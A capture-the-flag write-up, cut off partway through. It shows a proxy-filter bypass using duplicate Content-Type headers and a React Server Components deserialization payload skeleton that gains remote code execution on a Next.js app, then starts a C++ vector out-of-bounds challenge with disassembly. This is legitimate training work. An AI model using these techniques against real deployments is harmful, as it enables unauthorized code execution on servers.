> kayanya mau diulang ratusan kali pun aku bakalan tetep milih kamu deh

# WEB

## northstar

> **Points:** 404  
> **Author:** daffainfo  
> **Description:** What could go wrong with my website?  
> **URL:** https://northstar.cbd2026.cloud/ 

---

### Reconnaissance

Opening the target showed a marketing style page for "Northstar Ops" with a Request demo form.


The frontend source shows that the page renders a `ServerActionForm` component. The form calls a server-side function named `processData`.

The server-side action is defined with:

```ts
'use server'

type DemoRequest = {
  name: string
  workEmail: string
  company: string
  notes: string
}

export async function processData(data: DemoRequest): Promise<string> {
  await new Promise(resolve => setTimeout(resolve, 100))
  return `Thanks ${data.name}. We will reach out at ${data.workEmail} after reviewing ${data.company} and your intake notes.`
}
```

This confirmed that the demo form was backed by a Next.js Server Action.

The package file showed the app was running:

```json
"dependencies": {
  "react": "19.0.0",
  "react-dom": "19.0.0",
  "next": "16.0.6",
  "react-server-dom-webpack": "19.0.0"
}
```

This was interesting because the application used React Server Components / Server Actions with a vulnerable-looking React and Next.js stack.

---

### Enumeration

#### Capturing the normal request

I configured my browser to use Burp as a proxy, opened:

**https://northstar.cbd2026.cloud/**

Then I filled the demo form with test data:

- Name: `rama`
- Email: `rama@company.com`
- Company: `company`
- Notes: `test`

With Burp Intercept enabled, submitting the form produced this request:



The response confirmed the action was valid too...

The important header was:

```
Next-Action: 4041c5a7aa2f58ac1e5d773a90b4af6376b2ea1f26
```

This was the Server Action ID needed for exploitation.

I sent this request to Burp Repeater.

---

### Vulnerability Analysis

There were two bugs chained together.

#### Vulnerable Server Action / RSC deserialization

The application exposed a Next.js Server Action through the demo form. The action itself was simple and not directly vulnerable, but the underlying React Server Components / Server Action deserialization layer was the attack surface.

The vulnerable dependency combination was:

```
"next": "16.0.6",
"react": "19.0.0",
"react-server-dom-webpack": "19.0.0"
```

The app accepted React Server Action requests and returned `text/x-component`, which confirmed the RSC/Flight protocol was being used.

#### Proxy parser differential

The app was behind a custom Python proxy. The proxy blocked requests containing the substring:

```
BLOCKED_TERM = "proto"
```

This was meant to stop payloads containing `__proto__`.

The proxy parsed request parameters based on Content-Type:

```python
media_type = content_type.split(";", 1)[0].strip().lower()
if media_type == "application/x-www-form-urlencoded":
    body_text = body.decode("utf-8", errors="replace")
    parameters.extend(parse.parse_qsl(body_text, keep_blank_values=True))
    return parameters, None
```

For JSON bodies, if parsing failed, the proxy returned without inspecting the raw body:

```python
if media_type == "application/json":
    try:
        payload = json.loads(body.decode("utf-8", errors="replace"))
    except json.JSONDecodeError:
        return parameters, None
    if isinstance(payload, dict):
        parameters.extend(flatten_json("", payload))
    elif isinstance(payload, list):
        parameters.extend(flatten_json("body", payload))
    else:
        parameters.append(("body", str(payload)))
    return parameters, None
```

Then it forwarded the original body upstream and the filter only checked parsed parameters:

```python
if blocked_term in key_text.lower() or blocked_term in value_text.lower():
    return 403, "Request blocked by input policy."
```

So the proxy could be bypassed by making it parse the body as invalid JSON, while the upstream Next.js app parsed the same body as multipart form data.

This was done with **duplicate Content-Type headers**:

```
Content-Type: application/json
Content-Type: multipart/form-data; boundary=----northstar
```

The proxy used one interpretation and skipped body inspection. Next.js used the multipart interpretation and processed the malicious React Flight payload.

---

### Exploitation

#### Send normal request to repeater

The original body was:

```json
[{"name":"rama","workEmail":"rama@company.com","company":"company","notes":"test"}]
```

This body was only a normal Server Action argument array. It simply called:

```js
processData({
  name: "rama",
  workEmail: "rama@company.com",
  company: "company",
  notes: "test"
})
```

For exploitation, I replaced the normal argument body with a malicious multipart React Flight payload.

**References:** https://github.com/freeqaz/react2shell



#### Convert request to HTTP/1.1

In Burp Repeater, I switched the request from HTTP/2 to HTTP/1.1.

This was important because duplicate headers are easier to preserve in HTTP/1.1.

The request line became:

```
POST / HTTP/1.1
```

#### Replace headers

I kept the valid `Next-Action` header from the intercepted request and replaced the body-related headers.

Final headers:



I deleted `Content-Length` and let Burp recalculate it automatically.

The duplicate Content-Type headers were required:

```
Content-Type: application/json
Content-Type: multipart/form-data; boundary=----northstar
```

The first header made the proxy try to parse the body as JSON. Since the body was not valid JSON, parsing failed and the proxy skipped inspection.

The second header made the upstream Next.js app parse the body as multipart React Server Action data.

#### Replace the body

I replaced the original JSON body with this multipart payload:



#### Why the body changed

The original body was normal app data.

The exploit body was not meant for the application logic. It was meant for the React Server Components deserializer.

The multipart field named `0` defined a malicious React Flight chunk:

```json
{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": "{\"then\": \"$B0\"}",
  "_response": {
    "_prefix": "JavaScript payload here",
    "_formData": {
      "get": "$1:constructor:constructor"
    }
  }
}
```

The important references were:

- `$1:__proto__:then`
- `$1:constructor:constructor`

These abused the vulnerable RSC deserialization behavior to reach JavaScript execution.

The JavaScript payload executed:

```
/readflag
```

Then it threw an error with the command output inside the digest field:

```js
throw Object.assign(new Error('NEXT_REDIRECT'), {
  digest: `${res}`
});
```

This made the command output appear in the HTTP response body.

---

### Privilege Escalation

So basically it's a Remote Code Execution initially ran as the low-privileged `ctf` user.

If we test with:

```js
execSync('id')
```

returned:

```
uid=1001(ctf) gid=1001(ctf) groups=1001(ctf)
```



The challenge included a SUID helper:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
    setuid(0);
    system("/bin/cat /root/flag.txt");
    return 0;
}
```

So instead of trying to read `/root/flag.txt` directly, the exploit executed: `/readflag`

The helper switched to UID 0 and printed the root flag.

The 500 Internal Server Error was expected. The exploit intentionally threw an error so the command output would be reflected in the React error digest.



---

### Flag

```
CBC{6cc6abdf24b2ece791cff9c75f5fdddb}
```

---

### References

1. https://react.dev/blog/2025/12/03/critical-security-vulnerability-in-react-server-components
2. https://www.trendmicro.com/en_us/research/25/l/CVE-2025-55182-analysis-poc-itw.html
3. https://github.com/freeqaz/react2shell
4. https://www.sysdig.com/blog/detecting-react2shell

---

---

# PWN

## cbc_plus_plus_1

> **Points:** 780  
> **Author:** zafirr  
> **Description:** A C++ number manager exposes a suspicious swap routine.  
> **Connect:** `nc pwn.cbd2026.cloud 9999`

---

### Reconnaissance

Run the binary:



Input flow:



---

### Source Code Review

The binary has:

```cpp
std::string name;
std::vector<unsigned long long> *vec;
```

The program reads name, creates a heap vector, then reserves `0x100` elements:

```cpp
void init() {
    std::cout << "Your name: ";
    std::cin >> name;
    vec = new std::vector<unsigned long long>();
    vec->reserve(0x100);
}
```

The menu prints `name` every loop:

```cpp
void menu() {
    std::cout << "Hi, " << name << std::endl;
    std::cout << "1. Add new number" << std::endl;
    std::cout << "2. Swap numbers" << std::endl;
    std::cout << "3. Exit" << std::endl;
    std::cout << "> ";
}
```

Case 1 adds a controlled `unsigned long long`:

```cpp
std::cout << "Num: ";
std::cin >> num;
vec->push_back(num);
std::cout << "Done" << std::endl;
break;
```

Case 2 swaps two vector indexes:

```cpp
std::cout << "Index 1: ";
std::cin >> ind1;
std::cout << "Index 2: ";
std::cin >> ind2;
num = vec->operator[](ind1);
vec->operator[](ind1) = vec->operator[](ind2);
vec->operator[](ind2) = num;
std::cout << "Done" << std::endl;
```

---

### Vulnerability

The vulnerable lines are:

```cpp
num = vec->operator[](ind1);
vec->operator[](ind1) = vec->operator[](ind2);
vec->operator[](ind2) = num;
```

Because:

- `std::vector::operator[]` does not bounds-check.
- `ind1` and `ind2` are attacker-controlled signed int values.
- Negative indexes are accepted by input.
- `operator[]` has no bounds checking, and out-of-range access is undefined behavior.

Because `std::vector` stores elements contiguously, an invalid index becomes pointer arithmetic relative to the backing buffer.

**References:** https://en.cppreference.com/cpp/container/vector

So if we enter `-1`, `-2`, `-3`, `-4` we can read/write before the vector buffer.

---

### Debugging with pwndbg

Start GDB:





```
pwndbg> disassemble main
Dump of assembler code for function main:
   0x000000000040145d <+0>:     endbr64
   0x0000000000401461 <+4>:     push   rbp
   0x0000000000401462 <+5>:     mov    rbp,rsp
=> 0x0000000000401465 <+8>:     push   rbx
   0x0000000000401466 <+9>:     sub    rsp,0x28
   0x000000000040146a <+13>:    mov    rax,QWORD PTR fs:0x28
   0x0000000000401473 <+22>:    mov    QWORD PTR [rbp-0x18],rax
   0x0000000000401477 <+26>:    xor    eax,eax
   0x0000000000401479 <+28>:    call   0x4012f6 <_Z4initv>
   0x000000000040147e <+33>:    mov    DWORD PTR [rbp-0x2c],0x0
   0x0000000000401485 <+40>:    mov    DWORD PTR [rbp-0x28],0x0
   0x000000000040148c <+47>:    mov    DWORD PTR [rbp-0x24],0x0
   0x0000000000401493 <+54>:    mov    QWORD PTR [rbp-0x20],0x0
   0x000000000040149b <+62>:    call   0x401378 <_Z4menuv>
   0x00000000004014a0 <+67>:    lea    rax,[rbp-0x2c]
   0x00000000004014a4 <+71>:    mov    rsi,rax
   0x00000000004014a7 <+74>:    lea    rax,[rip+0x3cb2]        # 0x405160 <_ZSt3cin@GLIBCXX_3.4>
   0x00000000004014ae <+81>:    mov    rdi,rax
   0x00000000004014b1 <+84>:    call   0x401140 <_ZNSirsERi@plt>
   0x00000000004014b6 <+89>:    mov    eax,DWORD PTR [rbp-0x2c]
   0x00000000004014b9 <+92>:    cmp    eax,0x3
   0x00000000004014bc <+95>:    je     0x40167f <main+546>
   0x00000000004014c2 <+101>:   cmp    eax,0x3
   0x00000000004014c5 <+104>:   jg     0x40164e <main+497>
   0x00000000004014cb <+110>:   cmp    eax,0x1
   0x00000000004014ce <+113>:   je     0x4014da <main+125>
   0x00000000004014d0 <+115>:   cmp    eax,0x2
   0x00000000004014d3 <+118>:   je     0x40154f <main+242>
   0x00000000004014d5 <+120>:   jmp    0x40164e <main+497>
   0x00000000004014da <+125>:   lea    rax,[rip+0x1b61]        # 0x403042
   0x00000000004014e1 <+132>:   mov    rsi,rax
   0x00000000004014e4 <+135>:   lea    rax,[rip+0x3b55]        # 0x405040 <_ZSt4cout@GLIBCXX_3.4>
   0x00000000004014eb <+142>:   mov    rdi,rax
   0x00000000004014ee <+145>:   call   0x401180 <_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@plt>
   0x00000000004014f3 <+150>:   lea    rax,[rbp-0x20]
   0x00000000004014f7 <+154>:   mov    rsi,rax
   0x00000000004014fa <+157>:   lea    rax,[rip+0x3c5f]        # 0x405160 <_ZSt3cin@GLIBCXX_3.4>
   0x0000000000401501 <+164>:   mov    rdi,rax
   0x0000000000401504 <+167>:   call   0x4011d0 <_ZNSirsERy@plt>
   0x0000000000401509 <+172>:   mov    rax,QWORD PTR [rip+0x3d90]        # 0x4052a0 <vec>
   0x0000000000401510 <+179>:   lea    rdx,[rbp-0x20]
   0x0000000000401514 <+183>:   mov    rsi,rdx
   0x0000000000401517 <+186>:   mov    rdi,rax
   0x000000000040151a <+189>:   call   0x4018bc <_ZNSt6vectorIySaIyEE9push_backERKy>
   0x000000000040151f <+194>:   lea    rax,[rip+0x1b22]        # 0x403048
   0x0000000000401526 <+201>:   mov    rsi,rax
   0x0000000000401529 <+204>:   lea    rax,[rip+0x3b10]        # 0x405040 <_ZSt4cout@GLIBCXX_3.4>
   0x0000000000401530 <+211>:   mov    rdi,rax
   0x0000000000401533 <+214>:   call   0x401180 <_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@plt>
   0x0000000000401538 <+219>:   mov    rdx,QWORD PTR [rip+0x3aa1]        # 0x404fe0
   0x000000000040153f <+226>:   mov    rsi,rdx
   0x0000000000401542 <+229>:   mov    rdi,rax
   0x0000000000401545 <+232>:   call   0x4011b0 <_ZNSolsEPFRSoS_E@plt>
   0x000000000040154a <+237>:   jmp    0x40167a <main+541>
   0x000000000040154f <+242>:   lea    rax,[rip+0x1af7]        # 0x40304d
   0x0000000000401556 <+249>:   mov    rsi,rax
   0x0000000000401559 <+252>:   lea    rax,[rip+0x3ae0]        # 0x405040 <_ZSt4cout@GLIBCXX_3.4>
   0x0000000000401560 <+259>:   mov    rdi,rax
   0x0000000000401563 <+262>:   call   0x401180 <_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@plt>
   0x0000000000401568 <+267>:   lea    rax,[rbp-0x28]
   0x000000000040156c <+271>:   mov    rsi,rax
   0x000000000040156f <+274>:   lea    rax,[rip+0x3bea]        # 0x405160 <_ZSt3cin@GLIBCXX_3.4>
   0x0000000000401576 <+281>:   mov    rdi,rax
   0x0000000000401579 <+284>:   call   0x401140 <_ZNSirsERi@plt>
   0x000000000040157e <+289>:   lea    rax,[rip+0x1ad2]        # 0x403057
   0x0000000000401585 <+296>:   mov    rsi,rax
   0x0000000000401588 <+299>:   lea    rax,[rip+0x3ab1]        # 0x405040 <_ZSt4cout@GLIBCXX_3.4>
   0x000000000040158f <+306>:   mov    rdi,rax
   0x0000000000401592 <+309>:   call   0x401180 <_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@plt>
   0x0000000000401597 <+314>:   lea    rax,[rbp-0x24]
   0x000000000040159b <+318>:   mov    rsi,rax
   0x000000000040159e <+321>:   lea    rax,[rip+0x3bbb]        # 0x405160 <_ZSt3cin@GLIBCXX_3.4>
   0x00000000004015a5 <+328>:   mov    rdi,rax
   0x00000000004015a8 <+331>:   call   0x401140 <_ZNSirsERi@plt>
   0x00000000004015ad <+336>:   mov    rax,QWORD PTR [rip+0x3cec]        # 0x4052a0 <vec>
   0x00000000004015b4 <+343>:   mov    edx,DWORD PTR [rbp-0x28]
   0x00000000004015b7 <+346>:   movsxd rdx,edx
   0x00000000004015ba <+349>:   mov    rsi,rdx
   0x00000000004015bd <+352>:   mov    rdi,rax
   0x00000000004015c0 <+355>:   call   0x40198a <_ZNSt6vectorIySaIyEEixEm>
   0x00000000004015c5 <+360>:   mov    rax,QWORD PTR [rax]
   0x00000000004015c8 <+363>:   mov    QWORD PTR [rbp-0x20],rax
   0x00000000004015cc <+367>:   mov    rax,QWORD PTR [rip+0x3ccd]        # 0x4052a0 <vec>
   0x00000000004015d3 <+374>:   mov    edx,DWORD PTR [rbp-0x24]
   0x00000000004015d6 <+377>:   movsxd rdx,edx
   0x00000000004015d9 <+380>:   mov    rsi,rdx
   0x00000000004015dc <+383>:   mov    rdi,rax
   0x00000000004015df <+386>:   call   0x40198a <_ZNSt6vectorIySaIyEEixEm>
   0x00000000004015e4 <+391>:   mov    rbx,QWORD PTR [rax]
   0x00000000004015e7 <+394>:   mov    rax,QWORD PTR [rip+0x3cb2]        # 0x4052a0 <vec>
   0x00000000004015ee <+401>:   mov    edx,DWORD PTR [rbp-0x28]
   0x00000000004015f1 <+404>:   movsxd rdx,edx
   0x00000000004015f4 <+407>:   mov    rsi,rdx
   0x00000000004015f7 <+410>:   mov    rdi,rax
   0x00000000004015fa <+413>:   call   0x40198a <_ZNSt6vectorIySaIyEEixEm>
   0x00000000004015ff <+418>:   mov    QWORD PTR [rax],rbx
   0x0000000000401602 <+421>:   mov    rbx,QWORD PTR [rbp-0x20]
   0x0000000000401606 <+425>:   mov    rax,QWORD PTR [rip+0x3c93]        # 0x4052a0 <vec>
   0x000000000040160d <+432>:   mov    edx,DWORD PTR [rbp-0x24]
   0x0000000000401610 <+435>:   movsxd rdx,edx
   0x0000000000401613 <+438>:   mov    rsi,rdx
   0x0000000000401616 <+441>:   mov    rdi,rax
   0x0000000000401619 <+444>:   call   0x40198a <_ZNSt6vectorIySaIyEEixEm>
   0x000000000040161e <+449>:   mov    QWORD PTR [rax],rbx
   0x0000000000401621 <+452>:   lea    rax,[rip+0x1a20]        # 0x403048
   0x0000000000401628 <+459>:   mov    rsi,rax
   0x000000000040162b <+462>:   lea    rax,[rip+0x3a0e]        # 0x405040 <_ZSt4cout@GLIBCXX_3.4>
   0x0000000000401632 <+469>:   mov    rdi,rax
   0x0000000000401635 <+472>:   call   0x401180 <_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@plt>
   0x000000000040163a <+477>:   mov    rdx,QWORD PTR [rip+0x399f]        # 0x404fe0
   0x0000000000401641 <+484>:   mov    rsi,rdx
   0x0000000000401644 <+487>:   mov    rdi,rax
   0x0000000000401647 <+490>:   call   0x4011b0 <_ZNSolsEPFRSoS_E@plt>
   0x000000000040164c <+495>:   jmp    0x40167a <main+541>
   0x000000000040164e <+497>:   lea    rax,[rip+0x1a0c]        # 0x403061
   0x0000000000401655 <+504>:   mov    rsi,rax
   0x0000000000401658 <+507>:   lea    rax,[rip+0x39e1]        # 0x405040 <_ZSt4cout@GLIBCXX_3.4>
   0x000000000040165f <+514>:   mov    rdi,rax
   0x0000000000401662 <+517>:   call   0x401180 <_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@plt>
   0x0000000000401667 <+522>:   mov    rdx,QWORD PTR [rip+0x3972]        # 0x404fe0
   0x000000000040166e <+529>:   mov    rsi,rdx
   0x0000000000401671 <+532>:   mov    rdi,rax
   0x0000000000401674 <+535>:   call   0x4011b0 <_ZNSolsEPFRSoS_E@plt>
   0x0000000000401679 <+540>:   nop
   0x000000000040167a <+541>:   jmp    0x40149b <main+62>
   0x000000000040167f <+546>:   nop
   0x0000000000401680 <+547>:   lea    rax,[rip+0x19e2]        # 0x403069
   0x0000000000401687 <+554>:   mov    rsi,rax
   0x000000000040168a <+557>:   lea    rax,[rip+0x39af]        # 0x405040 <_ZSt4cout@GLIBCXX_3.4>
   0x0000000000401691 <+564>:   mov    rdi,rax
   0x0000000000401694 <+567>:   call   0x401180 <_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@plt>
   0x0000000000401699 <+572>:   mov    rdx,QWORD PTR [rip+0x3940]        # 0x404fe0
   0x00000000004016a0 <+579>:   mov    rsi,rdx
   0x00000000004016a3 <+582>:   mov    rdi,rax
   0x00000000004016a6 <+585>:   call   0x4011b0 <_ZNSolsEPFRSoS_E@plt>
   0x00000000004016ab <+590>:   mov    eax,0x0
   0x00000000004016b0 <+595>:   mov    rdx,QWORD PTR [rbp-0x18]
   0x00000000004016b4 <+599>:   sub    rdx,QWORD PTR fs:0x28
   0x00000000004016bd <+608>:   je     0x4016c4 <main+615>
   0x00000000004016bf <+610>:   call   0x4011c0 <__stack_chk_fail@plt>
   0x00000000004016c4 <+615>:   mov    rbx,QWORD PTR [rbp-0x8]
   0x00000000004016c8 <+619>:   leave
   0x00000000004016c9 <+620>:   ret
End of assembler dump.
```

This confirms the add path uses `push_back`, and the swap path repeatedly calls `vector::operator[]`. The pwndbg disassembly also shows the indexes are read as signed ints and sign-extended with `movsxd` before being used.

#### Find global addresses

Run outside GDB:

